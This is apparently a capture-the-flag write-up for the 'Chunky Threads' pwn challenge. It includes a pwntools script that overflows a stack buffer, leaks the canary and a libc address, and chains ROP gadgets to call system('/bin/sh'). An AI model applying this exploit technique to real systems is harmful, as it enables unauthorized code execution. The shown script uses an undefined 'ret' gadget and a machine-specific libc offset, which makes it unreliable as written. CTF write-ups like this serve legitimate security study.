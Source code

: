 #  Chunky Threads 

**Challenge Description**:
Give the chonk a chunk and he just gets chonkier. Teach him to chunk and he will forestack smashing detected.

**Points**:
168

**Solution**:
```
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'/nix/store/hbc8c6fc17xnl85jxlcn9d4kxbyjj6il-shell/lib:/nix/store/cg9s562sa33k78m63njfn1rw47dp9z0i-glibc-2.40-66/lib:/nix/store/7c0v0kbrrdc2cqgisi78jdqxn73n3401-gcc-14.2.1.20250322-lib/lib'
    Stripped:   No
```
First of all - who tf makes a disgusting wrapper like this?
```sh
#!/bin/bash
cd /app
exec /lib64/ld-linux-x86-64.so.2 ./chall "$@"
```
And it's linked to some wierd NixOS stuff? Whatever.

This binary has 3 functions:
1. We can set a number of chunks
2. We can create a chunk that will be printed n times with a delay of j seconds. We control both n and j
3. We can read our chunk

When creating a chunk, we can send unlimited bytes. It will then later be copied into a 64 byte buffer - this means we have a buffer overflow. Whatever we send will be printed back to us using `puts`. Our first challenge is to bypass the stack canary!
If we fill the entire buffer + the first byte of the canary (which is a null byte and would terminate the puts, which we don't want), the stack canary will be sent back to us... And since we decide the delay for the function, we can make sure it doesn't reach stack canary check.
Hence, the first part of our solution script:
```python
from pwn import *

def chunks(n):
    p.sendline(f'CHUNKS {n}'.encode())
    p.recvuntil(b'set nthread to')
    return

def chunk(sleep_time, nTimes, data):
    print(f'Sending chunk with sleep_time={sleep_time}, nTimes={nTimes}, data={data}')
    p.send(f'CHUNK {sleep_time} {nTimes} '.encode() + data)

def chonk():
    print(p.recvuntil(b'\n\n').decode())
    return
e = ELF('./chall')
libc = ELF('./libc.so.6')
p = process('./wrapper.sh')

chunks(3)
chunk(60, 2, b'A' * 72 + b'\n')
p.recvuntil(b'A'*72)
canary_leak = p.recv(8).replace(b'\n', b'\x00')
canary_leak = int.from_bytes(canary_leak, 'little')
print(f'Canary leak: {hex(canary_leak)}')
```
Nice! I then noticed there was an address that was sent with the stack canary. It just so happens that the address has a fixed offset from libc - that means we have a libc leak!
```python
leak_2 = int.from_bytes(p.recvline().strip(), 'little')
print(f'Leak 2: {hex(leak_2)}')
```
So now we need to make a ROP chain that will run system. and make another chunk which overflows the entire buffer, the canary with the correct value and then overwrites the return address to our chain.
So then we have the last part of our program
```python
libc_base = leak_2+0x1090 # This worked on my pc - however on the container the offset was 0x4090. Thanks to zopazz for helping me finding this out
print(f'Libc base: {hex(libc_base)}')

pop_rdi = libc_base + 0x000000000010f75b
binsh = libc_base + next(libc.search(b'/bin/sh'))
system = libc_base + libc.symbols['system']
puts = libc_base + libc.symbols['puts']

payload = b'A' * 72
payload += p64(canary_leak)
payload += p64(0xdeadbeef)
payload += p64(ret)  # Return to ret gadget
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system)

chunk(2, 1, payload)
p.interactive()
```
And them boom, we have a shell which processes our commands like 1/4th of the time because of weird thread stuff. 
[Solve script](./exploit.py)